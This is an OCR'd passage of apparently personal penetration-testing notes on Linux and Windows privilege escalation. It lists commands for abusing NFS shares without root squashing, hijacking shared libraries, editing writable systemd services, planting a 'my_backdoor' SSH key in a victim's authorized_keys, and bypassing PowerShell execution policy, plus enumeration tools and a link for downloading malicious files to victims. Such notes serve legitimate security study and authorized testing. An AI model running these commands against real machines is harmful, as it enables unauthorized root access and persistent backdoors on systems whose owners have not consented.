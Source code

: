 ```shell
# – LD_PRELOAD hijacking: placing evil shared libs in LD_LIBRARY_PATH when root-set-exec runs dynamic binaries

# – Library hijacking: placing .so in writable library dirs or . relative CWD before system libs


# NFS Share, if root squashing is disabled
# Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
cat /etc/exports

# on our kali machine
showmount -e target_ip
mkdir /tmp/nfs  
mount -o rw,vers=3 <target_ip>:/target_share /tmp/nfs


# lxd/lxc and docker group priv esc
#
# [lxc/lxd Exploit](https://angelica.gitbook.io/hacktricks/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation?q=#method-2)
# [Docker group and more interesting groups](https://angelica.gitbook.io/hacktricks/linux-hardening/privilege-escalation/interesting-groups-linux-pe#docker-group)
# More
# [priv esc using docker/lxd](https://materials.rangeforce.com/tutorial/2019/12/07/Privilege-Escalation-Docker-LXD-Groups/)


# Service Escalation
find /etc -type f -writable 2>/dev/null
/etc/systemd/system/pythonapp.service


# SSH authorized keys (Check using nmap what type of ssh-hostkey SSH server will gonna accept)
# On the basis of ssh-hostkey change rsa,ecdsa and so on
ssh-keygen -t rsa -b 4096 -f my_backdoor -N "" # on kali
# on victim
echo "ssh-rsa AAAA...yourkey... attacker@host" >> ~/.ssh/authorized_keys
# OR
echo "$(cat my_backdoor.pub)" >> .ssh/authorized_keys'
```
## 🪟 <font color="#92cddc">Victim Windows Commands</font>

- [Downloading malicious files on victim machine](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)
- Windows Enumeration tools https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

### 🔍Enumeration
```powershell
# CMD or powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
set-executionpolicy -ep bypass
powershell.exe -ep Bypass -c ""

# Automated Enumeration Tools 
jaws-enum.ps1 -OutputFileName Jaws-Enum.txt   # [GitHub repo](https://github.com/411Hall/JAWS)
winpeas
seatbelt.exe -group=all 

```